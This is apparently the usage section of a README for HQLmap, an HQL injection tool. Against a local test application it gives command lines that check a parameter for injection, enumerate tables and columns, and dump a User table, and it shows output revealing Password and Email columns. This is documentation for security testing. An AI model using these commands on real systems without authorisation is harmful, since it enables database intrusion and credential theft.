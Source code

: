 ### Usage

This part includes different scenarios. 

### Checking if host is vulnerable
```
python HQLmap.py --url="http://localhost:9110/ropeytasks/task/search?q=test&search=Search" --param=q --cookie="JSESSIONID=D50C4AD5BA0F05FA426CF660D9E069B7" --check
```

The output is really simple : 

```
Host seems vulnerable.
```

### Checking with POSTDATA

```
python HQLmap.py --url="http://localhost:9110/ropeytasks/task/search?q=test&search=Search" --param=q --cookie="JSESSIONID=A101D5D76A260E9ECD2E10ADE9DF0E47" --T=User --results --dump --postdata="username=Test&password=Test!!!"
```


### Enumerating tables

```
$ python HQLmap.py --url="http://localhost:9110/ropeytasks/task/search?q=test&search=Search" --param=q --cookie="JSESSIONID=D50C4AD5BA0F05FA426CF660D9E069B7" --tables
```

Here is the output : 

```
[!] Table User has been found.
[!] Table Task has been found.
[-] Table News does not exist.
[-] Table Test does not exist.
```

By performing such enumeration, the scanner is using default file for the name of the tables if not specified. 
The default file is : db/tables.db


### Enumeration columns

```
python HQLmap.py --url="http://localhost:9110/ropeytasks/task/search?q=test&search=Search" --param=q --cookie="JSESSIONID=D50C4AD5BA0F05FA426CF660D9E069B7" --tables --columns
```
```
[!] Table User has been found.
[!] Table Task has been found.
[-] Table News does not exist.
[-] Table Test does not exist.
[!] Column Id has been found in table Task
[-] Column username in Task does not exist.
[-] Column password in Task does not exist.
[!] Column Status has been found in table Task
[-] Column user_id in Task does not exist.
(...)
[!] Column Password has been found in table User
[-] Column status in User does not exist.
[-] Column user_id in User does not exist.
[!] Column Email has been found in table User
[!] Column Firstname has been found in table User
[!] Column Lastname has been found in table User
```